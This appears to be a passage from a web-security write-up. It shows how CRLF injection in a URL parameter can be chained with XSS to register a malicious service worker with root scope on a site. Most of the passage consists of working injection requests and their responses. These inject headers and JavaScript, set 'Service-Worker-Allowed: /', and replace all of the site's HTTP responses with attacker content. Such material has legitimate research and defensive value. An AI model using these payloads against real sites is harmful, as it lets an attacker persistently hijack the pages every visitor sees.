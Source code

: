 Upload JS-file:
```
https://example.tld/some/path/foo/bar/?param=x%0D%0AContent-Type:text/
javascript%0D%0AContent-Length:7%0D%0A%0D%0AJS_file
```

There are two necessary points to register SW.
But in that case, one problem is actually exists - scope /some/path/foo/bar/, which is not interesting and its better to find a way to make scope a root /.

If read the documentation of SW, there is information about the `Service-Worker-Allowed` header, which is set in the HTTP response along with the worker's JS code, and through which it can be redefine the scope.

Which in case of CRLF Injection allows to register a SW located in any folder on the root of the site.

Final source code which register SW with `Service-Worker-Allowed: /` header. SW will change all responses of HTTP-traffic to "Fake response":

Request:
```
https://example.tld/some/path/foo/bar/?param=x%0D%0AService-Worker-Allowed:/
%0D%0AContent-Type:text/javascript%0D%0AContent-Length:162%0D%0A%0D%0Aself.addEventListener
(%22fetch%22,function(event){event.respondWith(new%20Response(%22Fake%20response%22,
{status:200,statusText:%22OK%22,headers:{"Content-Type%22:%22text/html%22}}))})
```

Response
```js
Service-Worker-Allowed:/
Content-Type:text/javascript
Content-Length:162


self.addEventListener("fetch",function(event){event.respondWith(new Response("Fake
 response",{status:200,statusText:"OK",headers:{"Content-Type":"text/html"}}))})
```

Connect SW using XSS and request:
```
https://example.tld/some/path/foo/bar/?param=x%0D%0AContent-Type:text/
html%0D%0AContent-Length:378%0D%0A%0D%0A%3Cscript%3Enavigator.serviceWorker.register('/some/
path/foo/bar/?param=x%250D%250AService-Worker-Allowed:/%250D%250AContent-Type:text/
javascript%250D%250AContent-Length:162%250D%250A%250D%250Aself.addEventListener
(%2522fetch%2522,function(event){event.respondWith(new%2520Response
(%2522Fake%2520response%2522,{status:200,statusText:%2522OK%2522,headers:{
   %2522Content-Type%2522:%2522text/html%2522}}))})',{scope:'/'})%3C/script%3E
```

Response:
```html
Content-Type:text/html
Content-Length:378

<script>navigator.serviceWorker.register('/some/path/foo/bar/?
param=x%0D%0AService-Worker-Allowed:/%0D%0AContent-Type:text/
javascript%0D%0AContent-Length:162%0D%0A%0D%0Aself.addEventListener(%22fetch%22,function
(event){event.respondWith(new%20Response(%22Fake%20response%22,{status:200,
statusText:%22OK%22,headers:{"Content-Type%22:%22text/html%22}}))})',{scope:'/'})</script>
```
